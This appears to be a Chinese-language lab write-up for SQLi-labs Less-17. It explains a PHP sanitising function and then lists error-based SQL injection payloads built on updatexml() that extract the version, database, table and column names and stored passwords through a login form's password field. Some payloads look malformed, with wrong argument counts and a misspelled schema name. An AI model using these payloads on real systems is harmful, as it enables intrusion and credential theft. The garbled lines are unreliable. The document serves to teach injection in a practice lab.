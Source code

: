 		}
 
		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
			{
			$value = stripslashes($value);
			}
 
		// Quote if not a number
		if (!ctype_digit($value))
			{
			$value = "'" . mysql_real_escape_string($value) . "'";
			}
		
	else
		{
		$value = intval($value);
		}
	return $value;
	}

只截取15个字符，

get_magic_quotes_gpc()

当magic_quotes_gpc=On的时候，函数get_magic_quotes_gpc()就会返回1

当magic_quotes_gpc=Off的时候，函数get_magic_quotes_gpc()就会返回0

magic_quotes_gpc函数在php中的作用是判断解析用户提示的数据，如包括有：post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。

在magic_quotes_gpc = On的情况下，如果输入的数据有

单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）等字符都会被加上反斜线。

stripslashes()删除由 addslashes() 函数添加的反斜杠

ctype_digit()判断是不是数字，是数字就返回true，否则返回false

mysql_real_escape_string()转义 SQL 语句中使用的字符串中的特殊字符。

intval()     整型转换
但是对password没有太多的过滤
2.针对password进行爆破，由题目使用updatexml()函数报错
对版本进行测试爆破：
`uname=admin&passwd=admin' and updatexml(1,concat('~',version()),'~',1)--+ &submit=Submit`
爆库
`uname=admin&passwd=admin' and updatexml(1,concat('~',database()),'~',1)--+ &submit=Submit`
爆表
`uname=admin&passwd=admin' and updatexml(1,concat('~',(select group_concat(table_name) from information_schma.columns where table_schema=database()),'~'),1)--+ &submit=Submit`
爆列名
`uname=admin&passwd=admin' and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users' and column_name not in('user_id','user','first_name','last_name','avatar','last_login','failed_login')),'~'),1)`
尝试输出密码
`uname=admin&passwd=admin' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) --+ &submit=Submit `
却发现了错误
![sql1701](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less17/sql1701)
尝试加一层select
`uname=admin&passwd=admin' and updatexml(1,concat('~',(select password from (select password from users where username='admin')),'~'),1) --+&submit=Submit`
发现提示：every derived table must have its own alias
需要给查询的表添加一个别名
`uname=admin&passwd=12' and updatexml(1,concat('~',(select password from (select password from users where username='admin')a),'~'),1) --+&submit=Submit`
***